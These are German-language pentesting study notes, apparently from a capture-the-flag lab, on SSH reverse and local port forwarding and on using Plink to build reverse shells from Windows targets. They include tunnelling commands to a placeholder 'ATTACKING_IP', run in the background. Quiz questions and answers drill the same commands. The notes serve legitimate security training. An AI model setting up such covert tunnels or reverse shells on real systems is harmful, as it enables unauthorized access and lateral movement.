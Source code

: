 Pro-Tipp:
Wir können bei neueren SSH Client auch einen Reverse-Proxy erstellen:

>ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN

---

Um eine solche Verbindung wieder zu schließen, schauen wir uns die laufenden Prozesse an:

![alt text](image-3.png)

Wenn wir den entsprechenden Prozess gefunden haben, schließen wir ihn mit:

![alt text](image-4.png)

Beispiele:

Stell dir vor, du willst ein Reverse Portfward von Port 22 auf der Maschine (172.16.0.100) zu dem Port 2222 auf unsere Maschine (172.16.0.200) machen. Ausserdem willst du einen Key verwenden mit dem Namen id_rsa und das ganze soll im Backgrund laufen. Achja dein Username ist kali. Wie sieht der Befehl aus?

>ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa -fN


--- 

Welchen Befehl nutzt du, um einen Proxy weiterzuleiten auf Port 8000 auf user@target.thm?

>ssh -R 8000 user@target.thm -fN

---

Du hast Zugriff auf den Server 172.16.0.50, auf dem intern ein Webserver auf Port 80 läuft. Dieser ist nur auf dem Server selbst erreichbar (127.0.0.1:80). Wie leitest du diesen auf Port 8000 auf deiner Maschine um? Achja Username ist user und das ganze soll dann im Hintergrund verschwinden.

>ssh -L 8000:127.0.0.1:80 user@172.16.0.50 -fN

### Plink.exe

Plink ist eine CMD Version des beliebten PuTTy SSH Clients. Da Windows aber mittlerweile in seinen Versionen einen eigenen SSh Client hat, ist Plink nicht mehr ganz so relevant.

Generell ist es nicht besonders üblich das Windows Server auch einen SSH Client laufen haben. Unsere Verwendung von Plink besteht in der Regel darin, eine Binary zum Ziel zu transportieren und sie dann zum Erstellen einer reverse Shell zu verwenden.

Beachte das diese Syntax nahezu identisch mit der vorherigen ist, wenn du den Standard-OpenSSH-Client verwendest. Das cmd.exe /c echo y am Anfang ist für nicht interaktive Shells (wie die meisten Reverse-Shells – wobei Windows-Shells schwer zu stabilisieren sind) gedacht, um die Warnmeldung zu umgehen, dass das Ziel keine Verbindung zu diesem Host in der Vergangenheit hergestellt hat.
